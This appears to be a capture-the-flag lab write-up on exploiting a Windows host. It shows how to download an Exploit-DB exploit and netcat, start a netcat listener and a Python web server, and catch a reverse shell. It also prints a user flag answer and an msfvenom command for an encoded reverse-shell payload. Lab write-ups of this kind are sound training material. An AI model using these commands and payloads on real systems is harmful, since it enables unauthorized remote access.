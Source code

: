#### Action

To begin, download and prepare the necessary files:

1. **Download Netcat:**
   - Get `nc.exe` from [https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip](https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip) and unzip it.
   
2. **Download the Exploit:**
   - Get the exploit from [https://www.exploit-db.com/download/39161](https://www.exploit-db.com/download/39161), rename it to `exploit.py`, and edit it to replace your IP.

3. **Start a Netcat Listener:**
   ```bash
   sudo rlwrap nc -nlvp 443
   ```

4. **Start a Python Web Server:**
   ```bash
   sudo python3 -m http.server 80
   ```

5. **Run the Exploit:**
   ```bash
   python exploit.py 10.10.247.243 8080
   ```

**Sample Output:**

You should see connections to your Python web server and get a shell in your Netcat listener.

```bash
C:\Users\bill\Desktop>more user.txt
b04763b6fcf51fcd7c13abc7db4fd365
```

### Q1. What PowerShell command could we run to manually find out the service name?

#### Action

We could have used PowerShell to list the services as follows:

```bash
powershell -c "Get-Service"
```

**Ans:** powershell -c Get-Service

**Explanation:**  
This command lists all services running on the system, allowing us to identify potential targets for privilege escalation.

### Escalating to Administrator

With our new knowledge, we can now escalate privileges to Administrator.

1. **Generate Payload:**
   Use `msfvenom` to create a reverse shell payload:
   ```bash
   msfvenom -p windows/shell_reverse_tcp LHOST=10.8.50.72 LPORT=443 -e x86/shikata_ga_nai -f exe -o Advanced.exe
   ```
